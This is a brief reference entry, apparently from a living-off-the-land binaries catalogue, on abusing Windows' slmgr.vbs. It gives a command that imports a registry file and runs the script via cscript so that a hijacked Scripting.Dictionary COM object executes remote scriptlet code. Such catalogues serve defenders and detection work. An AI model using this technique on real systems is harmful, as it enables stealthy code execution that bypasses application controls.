 ## Slmgr.vbs
* Functions: Execute
```

reg.exe import c:\path\to\Slmgr.reg & cscript.exe /b c:\windows\system32\slmgr.vbs
Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
```
   
* Resources:   
  * https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
  * https://www.youtube.com/watch?v=3gz1QmiMhss
   
* Full path:   
  * c:\windows\system32\slmgr.vbs
  * c:\windows\sysWOW64\slmgr.vbs
   
* Notes: Thanks to Matt Nelson - @enigma0x3, Casey Smith - @subTee  
   

